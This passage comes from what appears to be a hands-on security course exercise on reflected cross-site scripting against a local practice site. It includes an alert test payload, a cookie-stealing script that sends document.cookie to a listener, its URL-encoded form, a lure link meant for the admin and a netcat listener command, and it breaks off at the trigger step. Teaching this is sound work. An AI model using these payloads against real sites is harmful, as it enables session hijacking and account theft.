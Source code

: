 
>[!exercise] Exercise 9.3 - Cross Site Scripting (XSS)
>You will discover and exploit an XSS vulnerability in the vulnerable-site to steal the administrator's session cookie from within your Kali VM.
>#### Step 0 - Install Docker and Vulnerable-Site (if needed)
>This step should not be needed if Exercise 9.1 and 9.2 were already completed; otherwise, refer to Exercise 9.1 - Step 1 and 9.1 - Step 2 for instructions.
>#### Step 1 - Identify XSS
>With the vulnerable-site running in your Kali VM, launch a Firefox instance and navigate to [http://127.0.0.1/](http://127.0.0.1/). 
>
>Open the source code of the login page by right clicking anywhere on the page and selecting "View Page Source" from the context menu.
>
>A new tab opens displaying HTML code that includes a hidden form value "version" with the value "beta".
>
>Return to the login page and enter the known credentials for the low privileged user (username=daniel and password=Password123). Entering the correct credentials logs you onto the Welcome Page.
>
>Observe that the page has a footer displaying the version as "beta". In addition, observe that the URL includes a parameter "`&version=beta`". Change the value for the version parameter in the URL bar to "`foobar`" and press enter to load the page with the new value.
>```
>http://127.0.0.1/?username=daniel&password=Password123&version=foobar
>```
>
>Observe that the GET parameter `version` reflects your input! Replace the "`foobar`" value with the test XSS payload "`<script>alert(1)</script>`" and press enter to reload the page. 
>```
>http://127.0.0.1/?username=daniel&password=Password123&version=<script>alert(1)</script>
>```
>
>Observe that a JavaScript alert box executed! Press Ok in the alert box to finish loading the page.
>#### Step 2 - Stage the Attack
>You will craft a malicious payload that sends the admin user's cookie value to an attacker-controlled server. The following payload creates an image object sourced from a remote server. The remote server is your attacker-controlled URL that has the victim user's cookie appended to it.
>```
><script>var i=new Image;i.src="http://127.0.0.1:9001/?"+document.cookie;</script>
>```
>
>This payload includes special characters that the browser will interpret, change, and break. Therefore, you will use the URL encoded version.
>```
>%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F127.0.0.1%3A9001%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
>```
>This payload replaces the GET parameter version value in the following link. The following link will be sent to the victim admin user with an enticing message to lure them into clicking it while logged into the vulnerable-site.
>```
>http://127.0.0.1/home.php?version=%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F127.0.0.1%3A9001%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
>```
>Next, set up the attacker server. Open a bash terminal and run a `netcat` listener that will capture the request and cookie when the victim clicks on the link. Observe that the `netcat` listener remains open awaiting a connection.
>```bash
>nc -lp 9001
>```
>#### Step 3 - Trigger the Attack

[^1]: A03 Injection; OWASP Top 10.2021; March 10th 2024; https://owasp.org/Top10/A03_2021-Injection/
[^2]: CWE - CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection') (4.14); MITRE CWE; March 10th 2024; https://cwe.mitre.org/data/definitions/77.html
[^3]: WSTG - Stable; Testing for Command Injection; OWASP Foundation; March 10th 2024; https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
[^4]: Google Advanced Search; Google; March 10th 2024; https://www.google.com/advanced_search
[^6]: aboul3la/Sublist3r: Fast subdomains enumeration tool for penetration testers; GitHub; March 13 2024; https://github.com/aboul3la/Sublist3r